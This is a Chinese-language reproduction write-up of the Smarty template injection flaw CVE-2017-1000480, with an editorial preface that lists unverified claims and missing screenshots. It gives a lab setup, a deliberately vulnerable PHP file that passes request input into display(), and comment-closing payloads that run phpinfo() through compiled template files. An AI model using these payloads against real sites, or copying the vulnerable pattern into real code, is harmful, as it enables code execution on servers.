

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=3.1.31及未限定commit的3.1.32-dev，实验PHP5.6.40+Smarty3.1.31

代码与实验材料：完整自定义Resource、Security启用、display用户输入与Linux/Windows文件名差异，最后关键源码图只剩image

来源证据范围：无官方公告/原研究链接

- **结论使用边界（1）**：实验环境不应递归777；依据：sudo chmod -R777整个项目，无需将代码及依赖全部可写。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：版本安装与前提需规范；依据：composer先取最新再sed^3.1不保证锁3.1.31，dev标签需提交；用户控制自定义资源名称是关键非普通Smarty均RCE。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（3）**：图片缺失文本和路径污染；依据：结尾关键第137行只剩image，各图后资源残串。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2017-1000480）Smarty\<=3.1.31 命令执行RCE
===============================================

一、漏洞简介
------------

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty
3容易受到PHP代码注入的攻击。

二、漏洞影响
------------

Smarty\<=3.1.31、3.1.32-dev

三、复现过程
------------

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

    ➜  html mkdir smarty
    ➜  html cd smarty
    ➜  smarty mkdir cache compile templates
    ➜  smarty composer require smarty/smarty -v
    ➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
    ➜  smarty composer update
    ➜  smarty sudo chmod -R 777 .

/var/www/html/smarty/index.php 如下：

    <?php
    require './vendor/autoload.php';

    class Smarty_Resource_Widget extends Smarty_Resource_Custom
    {
        protected function fetch($name, &$source, &$mtime)
        {
            $template = "Smarty <=3.1.31 RCE (CVE-2017-1000480)";
            $source = $template;
            $mtime = time();
            return 'mochazz';
        }
    }

    $smarty = new Smarty();
    $smarty->setCacheDir('cache');
    $smarty->setCompileDir('compile');
    $smarty->setTemplateDir('templates');

    $my_security_policy = new Smarty_Security($smarty);
    $smarty->enableSecurity($my_security_policy);
    $smarty->registerResource('username', new Smarty_Resource_Widget());
    $smarty->display('username:'.$_GET['mochazz']);

    ?>

### 2、漏洞分析

具体攻击 payload 如下：

    http://0-sec.org/index.php?mochazz=*/phpinfo();/*

Smarty<=3.1.31命令执行RCE/media/rId26.jpg)

我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在
render
方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。

Smarty<=3.1.31命令执行RCE/media/rId27.jpg)

在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的
compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

    # 代码：$smarty->display('username:'.$_GET['mochazz']);

    # payload1：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();/*
    4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

    # payload2：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//
    1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php

这是因为 compile 文件名中，有一部分由 basename(\$source-\>name)
决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload
时，文件名就会包含 *号。在 Linux 系统下，文件名允许包含* 号，但是
Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows
平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile
文件中的内容包含模板路径（即下图最后一行代码
\$\_template-\>source-\>filepath ），这个模板路径就是我们传入 display
方法的参数。虽然该参数被注释包裹，但是我们可以用 \*/ 闭合。写入 compile
文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

image
